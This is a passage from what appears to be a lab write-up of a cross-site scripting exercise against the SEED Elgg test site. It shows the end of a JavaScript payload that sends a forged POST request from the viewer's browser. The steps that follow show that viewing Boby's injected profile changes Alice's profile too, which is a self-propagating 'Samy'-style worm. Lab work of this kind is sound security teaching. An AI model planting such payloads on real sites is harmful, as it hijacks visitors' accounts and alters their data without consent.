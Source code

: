 ```
      Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
      Ajax.setRequestHeader(
        "Content-Type",
        "application/x-www-form-urlencoded"
      );
      Ajax.send(content);
    }
  };
</script>

```
Edit Boby's profile as the code above. Then sign-in as Boby to view his profile page, as expected, Boby is injected and shows "modified by Samy". Log-out and then log-in as Alice to view Boby's profile, now you can found that Alice's profile is also changed.

![alt text](https://github.com/Asad-Ali-Code/Cross-Site-Scripting-Attack/blob/main/alice%20ifect%20by%20boby.PNG)

